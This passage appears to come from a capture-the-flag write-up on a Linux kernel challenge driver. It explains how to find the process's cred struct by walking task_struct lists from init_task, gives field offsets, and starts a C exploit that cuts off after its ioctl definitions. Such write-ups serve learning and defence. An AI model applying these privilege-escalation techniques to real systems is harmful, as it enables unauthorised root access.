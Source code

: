 `kuid_t` is a struct containing an `unsigned int`, so we are talking about 4 bytes in memory.
The idea is now to set some UIDs to 0, meaning root privileges for our exploit!

One of the bigger issues I faced was finding a way to leak the address of the **correct** `cred struct`. (remember that I'm still a noob at kpwn and kernel debugging)

Every process has an associated `task_struct`, which contains loads of information, including a pointer to the credentials of such process.
The structs are linked in a linked-list, starting from `init_task`, this represents the process with `pid` 1.
`init_task` is located in the kernel data region and, as KASLR is disabled, we know precisely where that is.
The other tasks, however, are dynamically allocated and so are the creds.

**We need to traverse the linked list until we find the `task_struct` containing the pid of our exploit, retrieve the address of the `cred struct` and override some UIDs.** 

Now, the structure of a `task_struct` is available [here](https://elixir.bootlin.com/linux/v6.1/source/include/linux/sched.h#L737), but getting the correct offsets for useful fields is not a piece of cake.
However, after some debugging and guessing I retrieved the following:
- `task_struct.pid` at offset **0x560**
- `task_struct.tasks` (pointer to next `task_struct`) at offset **0x548**
- `task_struct.real_cred` (pointer to `cred struct`) at offset **0x728**

Now it's just a matter of ~~painless~~ scripting.

#### Final Exploit
```c
#include <sys/msg.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/msg.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>

#define CHALLENGE_DRIVER "/dev/chall"

#define CMD_ALLOC 1337
#define CMD_DELETE 1338
#define CMD_READ 1339
#define CMD_INFO 1340
#define CMD_TOGGLE 1341

static int fd;

typedef union request {

	struct alloc {
		unsigned long idx;
		char* buf;
		unsigned long bufsize;
		unsigned int public;
	} alloc;

	struct delete {
		unsigned long idx;
	} delete;

	struct read {
		unsigned long idx;
		char *buf;
		unsigned long bufsize;
```